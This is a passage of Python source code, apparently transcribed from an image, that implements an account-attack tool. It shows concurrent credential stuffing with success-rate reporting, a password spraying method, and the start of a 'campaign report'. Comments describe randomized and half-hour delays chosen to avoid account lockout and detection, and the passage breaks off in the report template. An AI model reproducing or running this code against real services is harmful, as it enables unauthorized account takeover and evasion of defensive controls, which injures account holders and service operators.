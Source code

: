 ```
                for cred in self.credentials
            ]
            
            # Wait for all tests to complete
            concurrent.futures.wait(futures)
        
        # Generate results
        print("\n" + "="*60)
        print("CREDENTIAL STUFFING CAMPAIGN RESULTS")
        print("="*60)
        print(f"Total tested: {len(self.credentials)}")
        print(f"Successful: {self.successful_attempts}")
        print(f"Failed: {self.failed_attempts}")
        print(f"Success rate: {(self.successful_attempts/len(self.credentials)*100):.2f}%")
        
        return self.valid_credentials
    
    def password_spraying(self, common_passwords: List[str], user_list: List[str]) -> List[Tuple[str, str]]:
        """
        Password spraying: Test a few common passwords against many users
        Lower detection risk than credential stuffing
        """
        print("[*] Initiating password spraying attack")
        print(f"[*] Passwords to test: {len(common_passwords)}")
        print(f"[*] User accounts: {len(user_list)}")
        
        valid_combos = []
        
        for password in common_passwords:
            print(f"\n[*] Testing password: {password}")
            
            for username in user_list:
                credential = Credential(
                    username=username,
                    password=password,
                    source="password_spray",
                    breach_date="N/A"
                )
                
                if self.test_credential(credential):
                    valid_combos.append((username, password))
                
                # Critical: Long delay between attempts on same password
                # Prevents account lockout and reduces detection
                time.sleep(random.uniform(30, 60))
            
            # Very long delay between password attempts
            # Spreads attack over hours/days to avoid detection
            print(f"[*] Waiting 30 minutes before next password...")
            time.sleep(1800)  # 30 minutes
        
        return valid_combos
    
    def generate_report(self) -> str:
        """Generate detailed attack report"""
        report = f"""
╔═══════════════════════════════════════════════════════════════════════════════════════════════════╗
║        CREDENTIAL STUFFING CAMPAIGN REPORT                                                        ║
╠═══════════════════════════════════════════════════════════════════════════════════════════════════╣
```